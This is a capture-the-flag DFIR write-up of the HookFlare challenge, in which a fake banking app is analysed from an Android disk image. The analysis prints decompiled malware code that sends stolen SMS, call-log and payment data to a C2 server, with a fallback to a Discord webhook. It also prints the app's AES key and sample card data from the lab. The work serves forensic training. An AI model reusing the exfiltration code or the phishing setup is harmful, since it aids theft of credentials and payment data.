

## **Challenge Description**

- **Name:** HookFlare
- **Category:** DFIR
- **Challenge Description:**  
    A S1rBank client reported unauthorized transactions. The victim received an SMS urging a banking app update via a link, which installed a dormant app mimicking the bank’s official version. Once activated, it stole credentials, bypassed 2FA via SMS interception, and exfiltrated data. As a DFIR specialist, analyze the Android disk image to uncover the malware’s operation, reconstruct the attack chain, and identify critical IoCs.

---

# Hack The Box Sherlocks Writeup - HookFlare

Lets first check the type of file syste in the iage
```sh
❯ file HookFlare.dd
HookFlare.dd: Linux rev 1.0 ext4 filesystem data, UUID=c6b61eb0-f24b-49d4-94f2-5e69088b4b76, volume name "Android-x86" (needs journal recovery) (extents) (large files)
```
since it is a the image is a ` Linux rev 1.0 ext4 filesystem data` raw filesystem and can be mounted directly (no offset)
## Task 1 Provide the UTC timestamp of the phishing SMS.
SMS messages on Android are primarily stored in a database file named mmssms.db within the device's internal storage. I is located in the `data` directory and the specific location of the db varies depending on the version of androd.
- **Android 7.0+**: `/data/user_de/0/com.android.providers.telephony/databases/mmssms.db`
- **Android 4.0 - 6.x**: `/data/data/com.android.providers.telephony/database/mmssms.db`
```sh
❯ sqlite3 /tmp/mmssms.db "SELECT datetime(date/1000, 'unixepoch') as timestamp, address, body FROM sms WHERE body LIKE '%update%' OR body LIKE '%app%' OR body LIKE '%link%' OR body LIKE '%bank%';"

2025-02-01 16:20:32|14356951192|S1rBank Alert: We detected a paid process of $700.00 (Ref #971253158RS) on your account. To confirm this transaction, please update your app now: s1rbank.net/app Call +1 (505) 695-1110 for assistance.

```


## Task 2 Provide the UTC timestamp marking the start of the malicious application download.

## Task 3 Provide the package name of the malicious application.

```sh
❯ sudo cp /mnt/hookflare/android-9.0-r2/data/system/packages.list /tmp/
❯ sudo cat /tmp/packages.list | grep -i "s1rbank"

com.s1rx58.s1rbank 10078 0 /data/user/0/com.s1rx58.s1rbank default:targetSdkVersion=35 3003

```
## Task 4 Provide the number of runtime permissions granted to the malicious application.
```
❯ sudo grep -A 30 "com.s1rx58.s1rbank" /tmp/runtime-permissions.xml

  <pkg name="com.s1rx58.s1rbank">
    <item name="android.permission.READ_SMS" granted="true" flags="0" />
    <item name="android.permission.READ_CALL_LOG" granted="true" flags="0" />
    <item name="android.permission.READ_EXTERNAL_STORAGE" granted="true" flags="0" />
    <item name="android.permission.WRITE_EXTERNAL_STORAGE" granted="true" flags="0" />
  </pkg>

```
4

## Task 5 Provide the last access timestamp for the read sms permission used by the malicious application.
```sh
❯ sudo grep -B 5 -A 10 "com.s1rx58.s1rbank" /tmp/appops.xml
<op n="51" tt="1738429317804" tb="1738429742658" tc="1738429742585" pu="0" />
<op n="59" tt="1738429294424" tc="1738429725256" pu="0" />
<op n="60" tt="1738429294424" tc="1738429725256" pu="0" />
</uid>
</pkg>
<pkg n="com.s1rx58.s1rbank">
<uid n="10078" p="false">
<op n="6" tt="1738429638690" pu="0" pp="com.android.providers.blockednumber" />
<op n="14" tt="1738429638041" pu="0" pp="com.android.phone" />
<op n="45" tt="1738429640314" d="2501" />
<op n="59" tt="1738429542356" tc="1738429533917" pu="0" />
<op n="60" tt="1738429542356" tc="1738429533917" pu="0" />
</uid>
</pkg>
</app-ops>

```
Convert tje tie to UTC
```sql
❯ echo "SELECT datetime(1738429638690/1000, 'unixepoch');" | sqlite3

2025-02-01 17:07:18

```

## Task 6 Provide the URL used by the malware for data exfiltration.
Decopile the apk using `apktool`
` apktool d base.apk -o s1rbank`
find urls in the sali.
```sh
❯ find . -name "*.smali" -exec grep -l "http" {} \;

./smali/B/h.smali
./smali/A/b.smali
./smali/com/s1rx58/s1rbank/MyBackgroundService.smali
./smali/com/google/android/material/chip/Chip.smali
❯ strings ./smali/com/s1rx58/s1rbank/MyBackgroundService.smali | grep -E "http"  | sort -u

    const-string v0, "http://s1rbank.net:80/api/data"
    const-string v2, "http://s1rbank.net:80/api/data"

```

## Task 7 The malicious application checks if the server is live before sending data. Provide the HTTP method used for this check.
reverse the sali code
```sh
jadx -r  base.apk -d s1rbank
```

checking on the file `s1rbank/sources/com/s1rx58/s1rbank/MyBackgroundService.java`  we see the code responsible for checking connection and it is using `HEAD` 
```JAVA
    public static boolean a() throws ProtocolException {
        try {
            HttpURLConnection httpURLConnection = (HttpURLConnection) new URL("http://s1rbank.net:80/api/data").openConnection();
            httpURLConnection.setRequestMethod("HEAD");
            httpURLConnection.setConnectTimeout(5000);
            return httpURLConnection.getResponseCode() == 200;
        } catch (Exception unused) {
            return false;
        }
    }
```
## Task 8 If the primary server is unavailable, the malicious application redirects data exfiltration to an alternate URL. Identify and provide the alternate URL.
Lets check for any other url
```sh
❯ grep -r "http" .  | grep -v "s1rbank.net:80" | grep -v "google\|android"
./B/h.java:                HttpURLConnection httpURLConnection = (HttpURLConnection) new URL("https://discord.com/api/webhooks/1334648260610097303/-Lkxr0eZRO_fb_SaumBbBMZyANM3lyeCkR-E1NXXRASPbtRdNksQSzx4pY1ZGQkFR2H8").openConnection();
./B/h.java:                httpURLConnection.setRequestMethod("POST");
./B/h.java:                httpURLConnection.setDoOutput(true);
./B/h.java:                httpURLConnection.setRequestProperty("Content-Type", "application/json");
./B/h.java:                OutputStream outputStream = httpURLConnection.getOutputStream();
./B/h.java:                    int responseCode = httpURLConnection.getResponseCode();
./B/h.java:                    httpURLConnection.disconnect();
./com/s1rx58/s1rbank/MyBackgroundService.java:            httpURLConnection.setRequestMethod("HEAD");
./com/s1rx58/s1rbank/MyBackgroundService.java:            httpURLConnection.setConnectTimeout(5000);
./com/s1rx58/s1rbank/MyBackgroundService.java:            return httpURLConnection.getResponseCode() == 200;
./com/s1rx58/s1rbank/MyBackgroundService.java:            httpURLConnection.setRequestMethod("POST");
./com/s1rx58/s1rbank/MyBackgroundService.java:            httpURLConnection.setDoOutput(true);
./com/s1rx58/s1rbank/MyBackgroundService.java:            httpURLConnection.setRequestProperty("Content-Type", "application/octet-stream");
./com/s1rx58/s1rbank/MyBackgroundService.java:            httpURLConnection.setRequestProperty("Data-Type", str);
./com/s1rx58/s1rbank/MyBackgroundService.java:            OutputStream outputStream = httpURLConnection.getOutputStream();
./com/s1rx58/s1rbank/MyBackgroundService.java:                int responseCode = httpURLConnection.getResponseCode();

```

checking ore in the file `h.java` we ee the ethod that redirects to the new url
```java
    public static String i0(byte[] bArr, String str) throws IOException {
        try {
            String str2 = new String(bArr);
            int i2 = 0;
            while (i2 < str2.length()) {
                int i3 = i2 + 2000;
                String str3 = "{\"content\": \"" + str2.substring(i2, Math.min(i3, str2.length())) + "\", \"type\": \"" + str + "\"}";
                HttpURLConnection httpURLConnection = (HttpURLConnection) new URL("https://discord.com/api/webhooks/1334648260610097303/-Lkxr0eZRO_fb_SaumBbBMZyANM3lyeCkR-E1NXXRASPbtRdNksQSzx4pY1ZGQkFR2H8").openConnection();
                httpURLConnection.setRequestMethod("POST");
                httpURLConnection.setDoOutput(true);
                httpURLConnection.setRequestProperty("Content-Type", "application/json");
                OutputStream outputStream = httpURLConnection.getOutputStream();
                try {
                    outputStream.write(str3.getBytes());
                    outputStream.close();
                    int responseCode = httpURLConnection.getResponseCode();
                    if (responseCode != 200 && responseCode != 204) {
                        return "Error: " + responseCode;
                    }
                    httpURLConnection.disconnect();
                    i2 = i3;
                } finally {
                }
            }
            return (str.equals("sms") || str.equals("call_log")) ? "Checking." : "Payment info checking.";
        } catch (Exception e2) {
            Log.e("MyBackgroundService", "DiscordWebhookSender Error: ", e2);
            return "Error: " + e2.getMessage();
        }
    }
```
## Task 9 The malicious application encrypts data before sending it to the server. Provide the encryption key used.
the MyBackgroundService.java iports the class `c.java` in `I0`directory
```java
                cursorQuery2.close();
                byte[] bArrEncode2 = Base64.getEncoder().encode(h.C(sb2.toString().getBytes()));
                strB2 = MyBackgroundService.a() ? MyBackgroundService.b(bArrEncode2, "call_log") : h.i0(bArrEncode2, "call_log");
```
the data gets encoded to based64 but the data coes frro the method `c` in the file B.h.
on checking the file we get the ethod and the key
```sh
    public static byte[] C(byte[] bArr) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidKeyException {
        SecretKeySpec secretKeySpec = new SecretKeySpec("0x_S1r_x58!@#53cuReK371337!$%^&*".getBytes(), "AES");
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(1, secretKeySpec);
        return cipher.doFinal(bArr);
    }
```

## Task 10 Credit card information was stolen. What was the second line in the exfiltrated payment information?
Let's analyze the PCAP data to get the exact data that was exfiltated
checking the `POST` data we get 
```http
POST /api/data HTTP/1.1

Content-Type: application/octet-stream

Data-Type: payment

User-Agent: Dalvik/2.1.0 (Linux; U; Android 9; VirtualBox Build/PI)

Host: s1rbank.net

Connection: Keep-Alive

Accept-Encoding: gzip

Content-Length: 128

  

/NVEQweZqE3c8BDxTv0vwbwv8Ax1Ry0K6+mUU7dyUjicOu7PEnrPHIEmUe/7ccfKmLKmS2QwIQYN8bm5xh64sIzykyQHWsNPKDnwyQfCNlKns6vPlOmJoc8v003nbqZL
```

now we have the data . to get the payent info we firt have to decode then decreypt the data
we can use cyberchef
1. **Take the Base64 data** you found from the PCAP
    
2. **From Base64** (decode first)
    
3. **AES Decrypt** with:
    
    - **Key**: `0x_S1r_x58!@#53cuReK371337!$%^&*`
        
    - **Mode**: ECB
        
    - **Input**: Raw
        
    - **Output**: Raw

we get the info 
```json
Full Name: PHILLIP KEELING
Card Number: 5453004085527987
Expiration Date: 05/27
CVV: 185
```
## References
https://www.magnetforensics.com/blog/android-messaging-forensics-sms-mms-and-beyond/